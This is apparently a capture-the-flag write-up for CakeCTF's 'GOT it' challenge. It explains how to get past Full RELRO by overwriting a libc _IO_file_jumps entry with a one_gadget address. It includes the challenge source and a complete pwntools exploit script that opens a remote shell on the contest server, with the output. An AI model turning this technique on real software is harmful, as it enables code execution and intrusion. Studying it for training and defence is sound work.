

# GOT it

**Category**: misc \
**Points**: 165 points (32 solves) \
**Author**: ptr-yudai

Does "Full RELRO" mean it's really secure against GOT overwrite?

```
nc pwn.cakectf.com 9003
```

Attachments: `got_it.tar.gz`

## Overview

Source:

```c
#include <stdio.h>
#include <unistd.h>

void main() {
  char arg[10] = {0};
  unsigned long address = 0, value = 0;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  printf("<main> = %p\n", main);
  printf("<printf> = %p\n", printf);

  printf("address: ");
  scanf("%p", (void**)&address);
  printf("value: ");
  scanf("%p", (void**)&value);
  printf("data: ");
  scanf("%9s", (char*)&arg);
  *(unsigned long*)address = value;

  puts(arg);
  _exit(0);
}
```

- We're given a program and libc leak
- Then we can write 8 bytes to any address
- Then the program calls `puts(arg)`

```
$ checksec chall
[*] '/home/plushie/Programs/cake_ctf/got_it/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

As the challenge description says, we can't overwrite the GOT since the binary
has full RELRO. Instead, let's look for values in libc that we can overwrite.

To do this, I used gdb to step into `puts()` and ran `nextcall` until I found
an indirect call with a writable argument. Luckily I was able to find one
pretty quickly:



As you can see `R14` is purple, which means its readable and writeable. It's
actually in the libc BSS segment:
```
    0x7fc5b5e00000     0x7fc5b5e03000 rw-p     3000 1ea000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
```

Unfortunately we don't control the first argument, but that's OK - we can just use [one_gadget](https://github.com/david942j/one_gadget).
```
$ one_gadget libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

The first one almost worked, but it segfaulted since `R12` wasn't
null. I fixed by sending a null byte to `scanf("%9s", (char*)&arg)`

Solve script:

```python
import pwn

pwn.context.binary = elf = pwn.ELF("./chall")
libc = pwn.ELF("./libc-2.31.so")

if pwn.args.REMOTE:
    io = pwn.remote("pwn.cakectf.com", 9003)
else:
    io = pwn.process("./chall")

if pwn.args.GDB:
    pwn.gdb.attach(
        io,
        gdbscript="""
break *main+312
continue
""",
    )

leak = int(io.recvlineS().strip().split(" = ")[-1], 16)
elf.address = leak - elf.symbols.main
leak = int(io.recvlineS().strip().split(" = ")[-1], 16)
libc.address = leak - libc.symbols.printf

pwn.log.info(f"elf.address = {hex(elf.address)}")
pwn.log.info(f"libc.address = {hex(libc.address)}")

addr = libc.symbols._IO_file_jumps + 56
value = libc.address + 0xE6C7E

io.sendlineafter("address: ", hex(addr))
io.sendlineafter("value: ", hex(value))

# Must be null to satisfy register for one_gadget
io.sendlineafter("data: ", b"\x00")

io.interactive()
```

Output:
```
$ python3 solve.py REMOTE
[*] '/home/plushie/Programs/cake_ctf/got_it/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/plushie/Programs/cake_ctf/got_it/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.cakectf.com on port 9003: Done
[*] elf.address = 0x56493a073000
[*] libc.address = 0x7f1c5e7b0000
solve.py:37: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter("address: ", hex(addr))
/home/plushie/Programs/archive/pwntools/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
solve.py:38: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter("value: ", hex(value))
[*] Switching to interactive mode
$ ls
chall
flag-94a6afdf8e59954b19196caca9ab2e35.txt
$ cat flag-94a6afdf8e59954b19196caca9ab2e35.txt
CakeCTF{*ABS*+0x190717@IGOTIT}
```
